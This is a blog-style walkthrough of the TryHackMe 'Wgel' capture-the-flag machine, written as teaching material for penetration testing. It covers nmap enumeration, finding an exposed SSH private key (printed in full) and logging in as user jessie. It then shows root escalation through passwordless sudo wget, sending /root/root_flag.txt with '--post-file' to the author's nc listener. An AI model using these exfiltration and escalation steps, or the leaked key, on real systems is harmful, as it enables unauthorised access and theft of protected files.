 ```yaml
---
title: Wgel - TryHackMe
date: 2020/08/07
categories:
  - pentesting
  - writeups
---
```


Hey there! Today I am going to walk you through the Wgel machine on [TryHackMe](https://tryhackme.com/room/wgelctf)

The first thing I always do is to export the IP to a global variable. So from now on \$IP will refer to the IP of the target machine.

```bash
export IP={Machine IP}
```

![test](burp.png)
![test](burp.png)
![test](burp.png)

![test](flag2.2.png)

## Enumeration

Let us start our enumeration as usual and do an nmap scan:

```bash
nmap -T4 -A $IP
```

This is what came back:

```plain
Starting Nmap 7.80 ( https://nmap.org ) at 2020-08-07 09:47 EDT
Nmap scan report for 10.10.54.255
Host is up (0.051s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 94:96:1b:66:80:1b:76:48:68:2d:14:b5:9a:01:aa:aa (RSA)
|   256 18:f7:10:cc:5f:40:f6:cf:92:f8:69:16:e2:48:f4:38 (ECDSA)
|_  256 b9:0b:97:2e:45:9b:f3:2a:4b:11:c7:83:10:33:e0:ce (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.80%E=4%D=8/7%OT=22%CT=1%CU=42515%PV=Y%DS=2%DC=T%G=Y%TM=5F2D5B8F
OS:%P=x86_64-pc-linux-gnu)SEQ(SP=105%GCD=1%ISR=10C%TI=Z%CI=RD%TS=A)SEQ(SP=1
OS:05%GCD=1%ISR=10C%TI=Z%CI=I%II=I%TS=A)OPS(O1=M508ST11NW6%O2=M508ST11NW6%O
OS:3=M508NNT11NW6%O4=M508ST11NW6%O5=M508ST11NW6%O6=M508ST11)WIN(W1=68DF%W2=
OS:68DF%W3=68DF%W4=68DF%W5=68DF%W6=68DF)ECN(R=Y%DF=Y%T=40%W=6903%O=M508NNSN
OS:W6%CC=Y%Q=)T1(R=Y%DF=Y%T=40%S=O%A=S+%F=AS%RD=0%Q=)T2(R=N)T3(R=N)T4(R=Y%D
OS:F=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T5(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O
OS:=%RD=0%Q=)T6(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T7(R=Y%DF=Y%T=40%W
OS:=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)U1(R=Y%DF=N%T=40%IPL=164%UN=0%RIPL=G%RID=G%R
OS:IPCK=G%RUCK=G%RUD=G)IE(R=Y%DFI=N%T=40%CD=S)

Network Distance: 2 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 1720/tcp)
HOP RTT      ADDRESS
1   52.28 ms 10.9.0.1
2   52.35 ms 10.10.54.255

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 23.73 seconds
```

So just SSH on port 22 and Apache on port 80. Let us first do some enumeration on the web server.<br/>On first glance there is just the Apache default page. If we have a look at the source code we can see that there is a comment inside:

```html
<!-- Jessie don't forget to udate the webiste -->
```

Apparently someone called Jessie is a developer or user of the target machine.

But let us run dirbuster and see if there is more to find.

At **/sitemap/** there is a blog like website with the title “unapp” but I did not find anything interesting there nor any exploits. So let us move on.

Weirdly my scan did not find anything, but I poked around a bit more and just tried random directories and files. So I stumbled upon this: **/sitemap/.ssh/id_rsa**.

```plain
-----BEGIN RSA PRIVATE KEY-----
MIIEowIBAAKCAQEA2mujeBv3MEQFCel8yvjgDz066+8Gz0W72HJ5tvG8bj7Lz380
m+JYAquy30lSp5jH/bhcvYLsK+T9zEdzHmjKDtZN2cYgwHw0dDadSXWFf9W2gc3x
W69vjkHLJs+lQi0bEJvqpCZ1rFFSpV0OjVYRxQ4KfAawBsCG6lA7GO7vLZPRiKsP
y4lg2StXQYuZ0cUvx8UkhpgxWy/OO9ceMNondU61kyHafKobJP7Py5QnH7cP/psr
+J5M/fVBoKPcPXa71mA/ZUioimChBPV/i/0za0FzVuJZdnSPtS7LzPjYFqxnm/BH
Wo/Lmln4FLzLb1T31pOoTtTKuUQWxHf7cN8v6QIDAQABAoIBAFZDKpV2HgL+6iqG
/1U+Q2dhXFLv3PWhadXLKEzbXfsAbAfwCjwCgZXUb9mFoNI2Ic4PsPjbqyCO2LmE
AnAhHKQNeUOn3ymGJEU9iJMJigb5xZGwX0FBoUJCs9QJMBBZthWyLlJUKic7GvPa
M7QYKP51VCi1j3GrOd1ygFSRkP6jZpOpM33dG1/ubom7OWDZPDS9AjAOkYuJBobG
SUM+uxh7JJn8uM9J4NvQPkC10RIXFYECwNW+iHsB0CWlcF7CAZAbWLsJgd6TcGTv
2KBA6YcfGXN0b49CFOBMLBY/dcWpHu+d0KcruHTeTnM7aLdrexpiMJ3XHVQ4QRP2
p3xz9QECgYEA+VXndZU98FT+armRv8iwuCOAmN8p7tD1W9S2evJEA5uTCsDzmsDj
7pUO8zziTXgeDENrcz1uo0e3bL13MiZeFe9HQNMpVOX+vEaCZd6ZNFbJ4R889D7I
dcXDvkNRbw42ZWx8TawzwXFVhn8Rs9fMwPlbdVh9f9h7papfGN2FoeECgYEA4EIy
GW9eJnl0tzL31TpW2lnJ+KYCRIlucQUnBtQLWdTncUkm+LBS5Z6dGxEcwCrYY1fh
shl66KulTmE3G9nFPKezCwd7jFWmUUK0hX6Sog7VRQZw72cmp7lYb1KRQ9A0Nb97
uhgbVrK/Rm+uACIJ+YD57/ZuwuhnJPirXwdaXwkCgYBMkrxN2TK3f3LPFgST8K+N
LaIN0OOQ622e8TnFkmee8AV9lPp7eWfG2tJHk1gw0IXx4Da8oo466QiFBb74kN3u
QJkSaIdWAnh0G/dqD63fbBP95lkS7cEkokLWSNhWkffUuDeIpy0R6JuKfbXTFKBW
V35mEHIidDqtCyC/gzDKIQKBgDE+d+/b46nBK976oy9AY0gJRW+DTKYuI4FP51T5
hRCRzsyyios7dMiVPtxtsomEHwYZiybnr3SeFGuUr1w/Qq9iB8/ZMckMGbxoUGmr
9Jj/dtd0ZaI8XWGhMokncVyZwI044ftoRcCQ+a2G4oeG8ffG2ZtW2tWT4OpebIsu
eyq5AoGBANCkOaWnitoMTdWZ5d+WNNCqcztoNppuoMaG7L3smUSBz6k8J4p4yDPb
QNF1fedEOvsguMlpNgvcWVXGINgoOOUSJTxCRQFy/onH6X1T5OAAW6/UXc4S7Vsg
jL8g9yBg4vPB8dHC6JeJpFFE06vxQMFzn6vjEab9GhnpMihrSCod
-----END RSA PRIVATE KEY-----
```

It is an SSH private key you can use to login to someones SSH.<br/>I went ahead and copied the key to a file called **id_rsa** and gave it the permissions SSH likes.

```bash
chmod 600 id_rsa
```

## Gaining Access

Now we can use that previously found key to login to SSH. The only thing we are missing is a user to map that key to. In this case the server would be even vulnerable to an exploit to enumerate all the users on a server, but because we found something for “Jessie” earlier, I assumed, that the key was Jessie’s.<br/>So let’s login as Jessie with the private key.

```bash
ssh -i id_rsa  jessie@$IP
```

### User Flag

The user flag was hidden inside of the “Documents” directory.

```bash
jessie@CorpOne:~$ ls
Desktop  Documents  Downloads  examples.desktop  Music  Pictures  Public  Templates  Videos

jessie@CorpOne:~$ cd Desktop/
jessie@CorpOne:~/Desktop$ ls

jessie@CorpOne:~/Desktop$ cd ..
jessie@CorpOne:~$ cd Documents/
jessie@CorpOne:~/Documents$ ls
user_flag.txt

jessie@CorpOne:~/Documents$ cat user_flag.txt
USER_FLAG
```

## Post Exploitation & Getting Root

Before uploading linpeas or anything else I fancied, I just had a look at our sudo permissions myself.

```plain
jessie@CorpOne:~/Documents$ sudo -l
Matching Defaults entries for jessie on CorpOne:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User jessie may run the following commands on CorpOne:
    (ALL : ALL) ALL
    (root) NOPASSWD: /usr/bin/wget
```

Interesting, apparently we can run **wget** as root without a password. So as always I had a look at [GTFOBins](https://gtfobins.github.io/) and found [this](https://gtfobins.github.io/gtfobins/wget/) for wget.

### Root Flag

It seems like we can download files to another machine. We can use that knowledge to directly exfiltrate the root flag.<br/>(Trust me it took me ages to figure that one out. I first tried to download /etc/shadow and simliar.)

So on my machine I listened for incoming connections on port 80 and stored the output in a file called “root_flag.txt”:

```plain
root@hades      :~/ctf/thm/wgel# nc -lnvp 80 > root_flag.txt
Ncat: Version 7.80 ( https://nmap.org/ncat )
Ncat: Listening on :::80
Ncat: Listening on 0.0.0.0:80
Ncat: Connection from 10.10.54.255.
Ncat: Connection from 10.10.54.255:36442.
```

On the target machine I used wget with the “–post-file” flag to send the root flag to my machine.

```bash
jessie@CorpOne:~/Documents$ sudo /usr/bin/wget --post-file=/root/root_flag.txt $YOUR_IP
--2020-08-07 18:11:21--  http://$YOUR_IP/
Connecting to $YOUR_IP:80... connected.
HTTP request sent, awaiting response...
```

You should now be able to cat out the root flag in the “root_flag.txt” file.

```bash
root@hades:~/ctf/thm/wgel# cat root_flag.txt
ROOT_FLAG
```

## The End

And there you have it! I hope you had fun, I know I did 🦄
